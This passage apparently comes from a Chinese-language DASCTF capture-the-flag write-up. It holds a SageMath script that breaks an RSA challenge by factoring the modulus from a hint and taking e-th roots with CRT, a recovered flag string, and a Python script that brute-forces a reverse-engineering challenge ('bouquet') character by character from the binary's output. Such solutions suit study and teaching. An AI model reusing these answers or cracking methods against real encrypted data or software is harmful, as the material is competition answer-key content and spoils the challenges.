hint = 57792516722001523643789088224096258172899052039145876393373730235406451592173971020702024058282699663364267742428240581839287357212741266617791207580236457
ct = 24482128269957355675512496312977308128712253968496848873519792376434347925427116612997489113223781321628516365811583310346553402215907938918891908853234881284620764982626375301219763593402089309909155204943747718536894186749932544428588048770663458669109073657836937287831725958017345747881678942488157429000

R.<x> = Zmod()[]
f = 2*x^2 + 7*n - hint*x
p = int(f.roots()[0][0])
q = n//p

e = gmpy2.next_prime(666)-1

R.<x> = Zmod(p)[]
f = x^e-ct
f = f.monic()
results1 = f.roots()

R.<x> = Zmod(q)[]
f = x^e-ct
f = f.monic()
results2 = f.roots()

for i in results1:
    for j in results2:
        param1 = [int(i[0]),int(j[0])]
        param2 = [p,q]
        m = CRT_list(param1,param2)
        flag = long_to_bytes(int(m))
        if b'DASCTF' in flag:
            print(flag)
            break
```

FastP0w3r\_4nd\_AMM\_0f\_R5A

### REVERSE

#### bouquet

拿到题目直接去ida里面搜一下关键信息


追踪进去



直接开爆

```
import subprocess


def run_exe_with_input(exe_path, input_data):
    process = subprocess.Popen(
        exe_path,
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
        text=True  
    )


    try:
        output, errors = process.communicate(input=input_data, timeout=10)
    except subprocess.TimeoutExpired:
        process.kill()
        output, errors = process.communicate()
        return "Process timed out", errors

    return output, errors


f = ['*'] * 25
for i in range(25):
    for j in 'j7aw_sC3addq4TAo}8_Fda{SD':
        exe_path = "bouquet.exe"
        f[i] = j
        input_data = ''.join(f) + "\n" 
        output, errors = run_exe_with_input(exe_path, input_data)
        w = output.split("\n")
        if len(w) == 49 - i * 2:
            print(j, end="")
            break

```
